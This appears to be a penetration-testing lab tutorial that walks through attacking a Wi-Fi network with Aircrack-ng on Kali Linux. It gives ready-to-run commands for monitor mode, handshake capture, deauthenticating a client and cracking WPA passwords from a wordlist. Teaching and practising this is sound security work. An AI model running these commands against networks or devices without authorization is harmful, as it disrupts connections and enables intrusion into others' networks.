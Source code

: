 # Project 5: Auditing and Attacking a Wi-Fi Network with Aircrack-ng on Kali Linux

## Introduction
In this project, you will learn how to use Aircrack-ng, a suite of tools for auditing and attacking Wi-Fi networks. This project will help you understand the security vulnerabilities in Wi-Fi networks and how to exploit them ethically. By the end of this project, you will be able to perform network discovery, capture packets, and crack WEP/WPA/WPA2 passwords.

## Pre-requisites
- Basic understanding of wireless networking concepts (SSID, BSSID, channels).
- Familiarity with using the command line interface (CLI).
- Basic knowledge of Wi-Fi security protocols (WEP, WPA, WPA2).

## Lab Set-up and Tools

### Diagram
Here is a simple network diagram for this lab setup:

+------------------+ +------------------+
| Attacker | | Wi-Fi Router |
| Kali Machine |<----->| (Target Network)|
| (192.168.1.100) | | (192.168.1.1) |
+------------------+ +------------------+
|
|
+------------------+
| Target Device |
| (Wi-Fi Client) |
| (192.168.1.101)|
+------------------+


### Tools
- **Kali Linux**: A Debian-derived Linux distribution designed for digital forensics and penetration testing.
- **Aircrack-ng**: A suite of tools for Wi-Fi network auditing and penetration testing (pre-installed on Kali Linux).
- **Wi-Fi Adapter**: A compatible Wi-Fi adapter that supports monitor mode.

### Installation
Aircrack-ng is pre-installed on Kali Linux. You can verify the installation or update it using the following command:
```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Tasks

### Task 1: Set Up Wi-Fi Adapter in Monitor Mode
Step1: Identify your Wi-Fi adapter:
```sh
iwconfig
```
Step2: Set your Wi-Fi adapter to monitor mode. Replace wlan0 with your Wi-Fi adapter's interface name:
```sh
sudo airmon-ng start wlan0
```
Expected Output: Your Wi-Fi adapter should now be in monitor mode, typically renamed to wlan0mon.

### Task 2: Discover Wi-Fi Networks
Step1: Use airodump-ng to discover nearby Wi-Fi networks:
```sh
sudo airodump-ng wlan0mon
```
Expected Output: A list of Wi-Fi networks in range, displaying SSIDs, BSSIDs, channels, and signal strengths.

### Task 3: Capture Handshake Packets
Step1: Choose a target network (preferably your own for ethical reasons) and capture handshake packets. Replace XX:XX:XX:XX:XX:XX with the target network's BSSID and X with the channel number:
```sh
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX -c X -w capture wlan0mon
```
Step2: Deauthenticate a connected client to force a handshake capture. Replace XX:XX:XX:XX:XX:XX with the target network's BSSID and YY:YY:YY:YY:YY:YY with the client's MAC address:
```sh
sudo aireplay-ng --deauth 10 -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```
Expected Output: Handshake packets should be captured and saved in the capture file.

### Task 4: Crack WEP/WPA/WPA2 Passwords
Step1: Use aircrack-ng to crack the captured handshake file. Provide a wordlist for the attack. For example, use the default wordlist provided by Kali Linux:
```sh
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
```
Expected Output: If the password is in the wordlist, aircrack-ng should successfully crack it and display the key.

### Task 5: Analyze Captured Packets
Step1: Use Wireshark to analyze the captured packets for detailed insights:
```sh
sudo wireshark capture-01.cap
```
Expected Output: A detailed view of the captured packets, including information about the handshake process and any other traffic.


## Additional Resources
Aircrack-ng Documentation
Kali Linux Documentation
Wireshark Documentation
Securing Your Wi-Fi Network


This project will help you understand how to audit and attack Wi-Fi networks using Aircrack-ng on Kali Linux, and provide you with the skills to improve the security of your own wireless networks.

